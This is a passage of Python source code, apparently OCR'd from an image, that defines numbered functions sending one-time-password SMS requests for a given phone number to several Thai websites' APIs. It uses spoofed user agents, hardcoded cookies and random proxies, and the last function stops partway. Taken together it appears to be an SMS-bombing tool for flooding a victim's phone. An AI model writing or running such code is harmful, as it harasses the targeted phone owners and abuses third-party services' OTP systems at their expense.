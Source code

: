 def api28(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://gamingnation.dtac.co.th/api/otp/request",headers={"User-Agent": generate_user_agent(),"Cookie": "auth.strategy=local; i18n_redirected=th; _gcl_au=1.1.265124296.1661273714; _ga=GA1.3.1857579863.1661273717; _gid=GA1.3.1514915490.1661273717; _fbp=fb.2.1661273718125.787639535; _tt_enable_cookie=1; _ttp=7e4a2162-1ab4-41a0-8b77-e1188cda6a3a; _hjSessionUser_2510409=eyJpZCI6ImVkM2I0OWU2LTBjODQtNWU1ZC04OWIzLTZlMjk5NGFhMWE3NCIsImNyZWF0ZWQiOjE2NjEyNzM3MTc5MzcsImV4aXN0aW5nIjpmYWxzZX0=; _hjFirstSeen=1; _hjIncludedInSessionSample=0; _hjSession_2510409=eyJpZCI6IjA4YjEyYTNlLTExNjgtNDNlMS05NTVmLWMyMWY2OTU5MGFiYyIsImNyZWF0ZWQiOjE2NjEyNzM3MTgzMTksImluU2FtcGxlIjpmYWxzZX0=; _hjAbsoluteSessionInProgress=0; _gat_UA-16732483-1=1"},json={"template":"register","phone_no":phone},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api29(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api-sso.ch3plus.com/user/request-otp",headers={'user-agent': generate_user_agent()},json={"tel":phone,"type":"login"})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api30(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api.cmtrade.com/api/v2/account/sms/code",headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36","cookie": "utm_source=GoogleSEM3; _ga=GA1.2.217747635.1664304861; _gac_UA-204031796-1=1.1664304861.EAIaIQobChMIkIuq29K1-gIVwRErCh1xrgqNEAAYAiAAEgLxKPD_BwE; _gid=GA1.2.2032034977.1664304861; _gat_gtag_UA_204031796_1=1; _gac_UA-204031796-2=1.1664304861.EAIaIQobChMIkIuq29K1-gIVwRErCh1xrgqNEAAYAiAAEgLxKPD_BwE; _gat_gtag_UA_204031796_2=1; _ga_39RBNN0V78=GS1.1.1664304861.1.0.1664304862.0.0.00","content-type": "application/x-www-form-urlencoded; charset=UTF-8","accept": "application/json, text/javascript, */*; q=0.01"},data=f"phone={phone}&countryCode=66&countryId=Thailand&type=mobile",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api31(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	SEND  = Session()
	API_WEB = SEND.get('https://www.bigthailand.com/login',headers={"user-agent": generate_user_agent()}).text
	SEND_TOKEN = bs(API_WEB,'html.parser')
	TOKEN = SEND_TOKEN.find("input",attrs={"name":"auth._token.local"})